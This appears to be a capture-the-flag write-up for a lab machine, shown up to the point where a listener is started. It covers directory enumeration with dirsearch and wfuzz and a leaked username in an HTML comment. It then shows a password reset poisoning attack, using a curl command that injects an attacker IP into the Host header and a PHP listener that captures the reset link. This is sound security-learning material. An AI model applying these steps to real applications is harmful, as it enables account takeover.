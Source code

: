 ```bash
/login     200
/home      302
/tickets   302
/forgot    200
/reset     200

# with dirsearch
dirsearch -u http://10.10.11.188/ -t 30 -r
#--snip--#
/forgot   200
/home     302
/login    200
/reset    200       

# with wfuzz
wfuzz -z file,/usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 -t 50 http://10.10.11.188/FUZZ
#--snip--#
/home    302
/login   200
/forgot  200
/tickets 302
```

#### Exploration
Tried several manual passwords using admin username with no result. Started Burp suite, investigated the site and discovered the comment, `<!-- Q1 release fix by robert-dev-87120 -->`, which appears to be populated dynamically. Copied the exact username for a specific session and again tried several passwords to gain entrance but was unsuccessful. Then used the 'forgot the password' in order to reset this particular user's password.

![Reset Password](/images/forgot/forgot01.png "Reset Password")

#### Exploitation
Our initial enumeration did not show a mail service. How can we get this link and reset this user's password and gain access to the application? Let's intercept this path in Burp suite and send to Repeater.
![Intercept Forgot URL](/images/forgot/forgot02.png "Intercept Forgot URL")

Could this application be vulnerable to [password reset poisoning?](https://www.invicti.com/learn/password-reset-poisoning/) Investigated and found that the site was [Host header injectible](https://www.invicti.com/learn/host-header-attacks/). Let's redirect the password reset request to our attacking machine so that once the user clicks the link sent to their email we grab the request.
```shell
curl -s -I http://10.10.11.188 -H 'Host: 10.10.14.87'   # verify Host header injection
#--snip--#
HTTP/1.1 302 FOUND
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sat, 18 Mar 2023 06:36:12 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 223
Location: http://10.10.14.87
X-Varnish: 33339
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Connection: keep-alive
```
This application blindly trusts the client-controlled Host header input against using the server-controlled Server_Name header. Thus we set up a server or listener and intercept the reset link.
```shell
# start a local server and repeat the request on Burp with your local server endpoint as the Host value. see forgot03
php -S 10.10.14.87:8001 
```